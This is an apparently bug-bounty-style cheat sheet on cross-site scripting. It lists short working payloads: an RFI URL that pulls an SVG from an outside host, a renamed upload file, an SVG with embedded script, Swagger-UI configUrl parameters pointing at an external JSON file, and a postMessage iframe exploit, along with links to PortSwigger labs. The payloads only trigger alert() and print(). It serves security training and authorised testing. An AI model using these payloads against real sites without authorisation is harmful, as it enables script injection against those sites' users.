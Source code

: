 * **Remote File Inclusion (RFI) to XSS**

```jsx
php?=http://brutelogic.com.br/poc.svg
```

* **File upload To XSS**

```jsx
file upload name XSS
upload a picture file, intercept it, change picturename.jpg to xss payload
```

* **XSS via SVG file**

```html
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
   <script type="text/javascript">
      alert("h0tak88r XSS");
   </script>
</svg>
```

### DOM XSS

#### **Check for Dom-XSS in Swagger-UI**

* [https://github.com/doosec101/swagger\_scanner](https://github.com/doosec101/swagger\_scanner)
* configUrl=https://jumpy-floor.surge.sh/test.json
* ?url=https://jumpy-floor.surge.sh/test.yaml

#### [**DOM XSS using web messages**](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages)

**Example for Vulnerable Code**

```jsx
<script>
    window.addEventListener('message', function(e) {
    document.getElementById('ads').innerHTML = e.data;
    })
</script>
```

**Exploit**

```html
<iframe src="<https://target.com/>" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```

* [**DOM XSS using web messages and a JavaScript URL**](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-a-javascript-url)
* [**DOM XSS using web messages and `JSON.parse`**](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-json-parse)
* [**DOM-based cookie manipulation**](https://portswigger.net/web-security/dom-based/cookie-manipulation/lab-dom-cookie-manipulation)
* [**Exploiting DOM clobbering to enable XSS**](https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-xss-exploiting-dom-clobbering)
* [**Clobbering DOM attributes to bypass HTML filters**](https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-clobbering-attributes-to-bypass-html-filters)

